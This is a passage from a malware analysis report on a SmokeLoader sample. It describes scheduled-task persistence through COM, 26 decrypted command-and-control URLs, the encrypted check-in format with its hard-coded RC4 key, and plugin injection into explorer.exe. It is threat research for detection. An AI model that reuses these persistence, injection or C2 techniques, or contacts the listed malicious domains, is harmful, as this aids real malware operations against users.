##### Logon Trigger (`TASK_TRIGGER_LOGON`)

The sample creates a logon-based trigger with `ITriggerCollection::Create(TASK_TRIGGER_LOGON)` and gets the corresponding `ITrigger` interface.

It creates `ILogonTrigger` with `ITrigger::QueryInterface`.
It sets the user ID to an empty string with `ILogonTrigger::put_UserId("")`.
Because the string is empty, the intended behavior may be to run on logon for any user.

#### Configure the Execution Action

The sample gets the `IActionCollection` interface with `ITaskDefinition::get_Actions` in order to define the task action.
It creates `IAction` with `IActionCollection::Create(TASK_ACTION_EXEC)`.
It creates `IExecAction` with `IAction::QueryInterface`.
It sets the task executable path with `IExecAction::put_Path(module copied under %APPDATA%)`.

### Register the Task

Finally, the sample registers the task with `ITaskFolder::RegisterTaskDefinition` and completes persistence. However, in this analysis environment, task registration failed. Possible reasons include the following.

- Lack of administrator rights
- UAC-based privilege escalation was not completed
- No write permission for the task registration folder

## C2 Communication

The URLs of the C2 servers are encrypted and defined with a structure like this.

```c
struct encrypted_c2 {
	BYTE enc_blob_len;
	DWORD rc4_key;
	BYTE enc_blob[1];
}
```

There are 26 pointers to these structure instances in a row.


After decryption, the following C2 URLs are obtained.

```
http://polinamailserverip.ru/
http://lamazone.site/
http://criticalosl.tech/
http://maximprofile.net/
http://zaliphone.com/
http://humanitarydp.ug/
http://zaikaopentra.com.ug/
http://zaikaopentra-com-ug.online/
http://infomalilopera.ru/
http://jskgdhjkdfhjdkjhd844.ru/
http://jkghdj2993jdjjdjd.ru/
http://kjhgdj99fuller.ru/
http://azartnyjboy.com/
http://zalamafiapopcultur.eu/
http://hopentools.site/
http://kismamabeforyougo.com/
http://kissmafiabeforyoudied.eu/
http://gondurasonline.ug/
http://nabufixservice.name/
http://filterfullproperty.ru/
http://alegoomaster.com/
http://freesitucionap.com/
http://droopily.eu/
http://prostotaknet.net/
http://zakolibal.online/
http://verycheap.store/
```

During the first communication, the sample sends data like the following to the C2 server with POST.
- First 2 bytes: byte representation of the SmokeLoader version 2022, `0x07e6`
- Next 41 bytes starting at byte 3: mutex name
- 16 bytes starting at byte 44: computer name
- OS version
- Various flags such as whether task scheduling was completed
- Bot command (`0x2711` on first execution)
- A random ASCII string with a random length from `0x6d` to `0x171`, generated with `RtlRandomEx`


This data is RC4-encrypted with the hard-coded key `0x8FC255EC`.


The sample uses APIs such as `WinHttpOpen`, `WinHttpConnect`, and `WinHttpOpenRequest` for communication. By specifying `INTERNET_SCHEME_HTTPS` in the `URL_COMPONENTS` structure passed to `WinHttpOpenRequest`, the full communication is encrypted with TLS.

The user-agent string comes from the Internet Explorer user agent returned by `ObtainUserAgentString`. In this environment, it was as follows:
`"Mozilla/5.0 (Windows NT 6.1; Win64; Trident/7.0; rv:11.0) like Gecko"`

The referrer string is generated randomly from:
- 6 to 10 randomly generated lowercase letters
- one randomly selected suffix from `.com`, `.org`, or `.net`

## Injection of Plugins into the `explorer.exe` Process

In this analysis, communication with the C2 server was not attempted, so the malware behavior after this point is unknown. However, commands sent by the C2 server include `"i"`, `"r"`, and `"u"`, which stand for `"install"`, `"remove"`, and `"update"` respectively (reference: [A Brief History of SmokeLoader, Part 2](https://www.zscaler.com/blogs/security-research/brief-history-smokeloader-part-2)).

After downloading a plugin, the malware RC4-decrypts the downloaded file, injects it into a suspended `explorer.exe` process, and then starts the main thread of `explorer.exe` with `ResumeThread`.

# Conclusion

This report analyzed a SmokeLoader sample and clarified its execution flow and internal behavior. The sample uses advanced anti-analysis techniques, including an unpacking stage that rewrites its own code in memory at runtime, multiple analysis-environment detection methods, dynamic API resolution through API hashes, and injection into a 64-bit process through Heaven's Gate.

In particular, the injection flow based on `NtCreateSection` and `NtMapViewOfSection`, and the reproduction of the decryption process with `flare-emu`, were key points for understanding the sample. The analysis also confirmed several designs intended to avoid detection, such as COM-based task scheduling and RC4-encrypted communication.

This analysis shows again that SmokeLoader is not just a simple loader. It is a platform-style malware family with advanced evasion mechanisms and flexible extensibility. Future work should include a deeper analysis of the 2nd stage and comparison with other variants in order to build a more complete understanding and improve detection methods.

# Tools and Libraries Used in the Analysis

- IDA (v9.3)
- x64dbg (Aug19 2025)

# References

- [Analysis of Smoke Loader in New Tsunami Campaign](https://unit42.paloaltonetworks.com/analysis-of-smoke-loader-in-new-tsunami-campaign/)
- [SmokeLoader Attack Targets Companies in Taiwan](https://www.fortinet.com/blog/threat-research/sophisticated-attack-targets-taiwan-with-smokeloader)
- [A Brief History of SmokeLoader, Part 1](https://www.zscaler.com/blogs/security-research/brief-history-smokeloader-part-1)
- [A Brief History of SmokeLoader, Part 2](https://www.zscaler.com/blogs/security-research/brief-history-smokeloader-part-2)
- [Dissecting Smoke Loader](https://cert.pl/en/posts/2018/07/dissecting-smoke-loader/)
